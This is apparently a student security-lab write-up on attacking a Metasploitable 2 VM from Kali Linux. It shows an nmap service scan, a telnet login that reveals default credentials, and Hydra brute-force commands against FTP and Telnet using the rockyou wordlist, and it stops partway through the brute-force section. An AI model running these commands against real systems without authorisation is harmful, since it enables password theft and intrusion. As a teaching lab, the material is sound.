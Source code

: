 # Lab 1: Cryptographic Attacks: Brute Force and Traffic Analysis on Network Protocols

## 🎯 Objective
The goal of this lab is to explore the vulnerabilities of common network protocols (FTP, TELNET, SSH, HTTP) by performing brute force attacks to recover passwords and then using those credentials to sniff network traffic. Will also analyze the security of these protocols and propose mitigation strategies.

---

## 🛠️ Requirement

- Kali Linux       (Attacker)
- Metasploitable 2 (Target machine)
- Wordlist          (rockyou.txt with "msfadmin")
- Nmap
- Hydra
---

## 🔍 Lab Tasks

### 1. Enumerate the Vulnerable VM to Discover Usernames

#### ✅ Objective:
- Identify potential usernames for brute force attacks.
- Document the usernames found.

#### 🔧 Steps Taken:

- Performed a port scan using Nmap:
  ```
  nmap -sV -p 21,23,22,80 [target-ip]
  ```
  ![image](https://github.com/user-attachments/assets/2c34570b-4073-4b21-82e7-e24b5da34909)

- Connected manually to Telnet to observe any information:
  ```
  telnet [target-ip]
  ```
  ![image](https://github.com/user-attachments/assets/3c80d78e-9904-4c9d-a4ab-e29bcb667df0)
  > Here we got the username and password: ```msfadmin:msfadmin```. Bear in mind, we often do not get the credentials as easily as this.


---
### 2.  Perform Brute Force Attacks
#### 2.1. FTP, TELNET, and SSH
- Use Hydra perform brute force attacks against the following protocols:
- FTP
  ```
  hydra -L rockyou.txt -P rockyou.txt ftp://[target-ip]
  ```
  ![image](https://github.com/user-attachments/assets/136b15fc-d644-4f87-b0c3-ba123adb8c57)
  
- TELNET
  ```
  hydra -L rockyou.txt -P rockyou.txt telnet://[target-ip]
  ```
  ![image](https://github.com/user-attachments/assets/5ba8dca6-6fd2-48b3-86a8-adedb3d78b46)



